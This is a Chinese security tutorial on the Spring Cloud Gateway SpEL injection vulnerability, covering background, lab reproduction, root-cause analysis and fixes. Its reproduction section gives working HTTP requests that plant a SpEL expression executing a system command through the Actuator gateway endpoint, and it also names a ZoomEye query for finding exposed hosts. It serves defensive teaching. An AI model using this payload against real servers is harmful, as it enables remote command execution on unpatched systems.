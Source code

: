 
## 目录
1. [基本介绍](#基本介绍)
2. [漏洞复现](#漏洞复现)
3. [原理分析](#原理分析)
4. [扫描与修复](#扫描与修复)
5. [法律声明](#法律声明)

---

## 基本介绍

### 微服务架构与 Spring Cloud
- **架构和技术栈**：  
  - 服务注册与发现（Eureka、Consul）  
  - 配置中心（Spring Cloud Config、Nacos）  
  - 网关解决方案（Zuul、Spring Cloud Gateway）  
  - 容错限流（Hystrix、Sentinel）  
  - 监控与调用链追踪（Zipkin、Sleuth）

### Spring Cloud 生态
- **核心组件**：  
  - Eureka、Ribbon、OpenFeign、Hystrix、Zuul  
  - ==**Gateway**==、Consul、Bus、Stream  
  - Nacos、Sentinel、Seata  

### 网关作用与解决方案
- **网关功能**：  
  - 智能路由、负载均衡、协议转换  
  - 权限校验、限流熔断、API监控  
- **常见方案**：  
  - Netflix Zuul  
  - Spring Cloud Gateway  
  - Kong  
  - Nginx + Lua  

### Spring Cloud Gateway 核心概念
- **三要素**：  
  - **路由（Route）**：定义请求转发规则  
  - **断言（Predicate）**：匹配请求的条件  
  - **过滤器（Filter）**：处理请求和响应的逻辑  

### Spring Boot Actuator
- **功能**：  
  - 健康检查、审计、统计、HTTP追踪  
- **集成配置**：  
  ```properties
  management.endpoint.gateway.enabled=true
  management.endpoints.web.exposure.include=gateway
  ```

---

## 漏洞复现

### 环境搭建
- **启动方式**：  
  1. 本地工程  
  2. Vulhub（Docker Compose）  
  3. Vulfocus.io 靶场  
  4. 自研靶场（如八方网域）  

### 漏洞利用步骤
6. **添加恶意路由过滤器**  
   ```http
   POST /actuator/gateway/routes/hacktest HTTP/1.1
   Host: localhost:9000
   Content-Type: application/json

   {
     "id": "hacktest",
     "filters": [{
       "name": "AddResponseHeader",
       "args": {
         "name": "Result",
         "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream())}"
       }
     }],
     "uri": "http://example.com"
   }
   ```

7. **刷新路由配置**  
   ```http
   POST /actuator/gateway/refresh HTTP/1.1
   Host: localhost:9000
   ```

8. **触发漏洞**  
   ```http
   GET /actuator/gateway/routes/hacktest HTTP/1.1
   Host: localhost:9000
   ```

### 执行结果
- 响应中返回命令执行结果（如当前用户 `whoami`）。

---

## 原理分析

### 漏洞成因
9. **Actuator 接口暴露**：开启 `/actuator/gateway` 接口后，攻击者可动态添加路由。  
10. **SpEL 表达式注入**：`AddResponseHeader` 过滤器的 `value` 字段支持 SpEL 表达式，未做安全过滤。  
11. **动态加载机制**：通过 `/refresh` 接口触发路由更新，恶意表达式被解析执行。  

### 关键代码分析
- **ShortcutConfigurable 类**：  
  在解析过滤器参数时，若值以 `#` 开头，会调用 `SpEL` 解析器执行表达式。  
  ```java
  if (rawValue != null && rawValue.startsWith("#")) {
      Expression expression = parser.parseExpression(rawValue);
      value = expression.getValue(context);
  }
  ```

---

## 扫描与修复

### 影响范围
- Spring Cloud Gateway < 3.1.1  
- Spring Cloud Gateway < 3.0.7  

### 检测工具
- **ZoomEye**：搜索 `app="vmware-SpringBoot-framework"`  
- **批量检测脚本**：如 `scan.py`  

### 修复方案
12. **升级版本**：  
   - Spring Cloud Gateway >= 3.1.1  
   - Spring Cloud Gateway >= 3.0.7  
13. **禁用 Actuator 接口**：  
   ```yaml
   management.endpoint.gateway.enabled: false
   ```
14. **临时缓解**：  
   - 限制 `/actuator/gateway` 接口的访问权限  

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本课程内容仅用于防御性教学演示，严禁用于非法用途。**

```
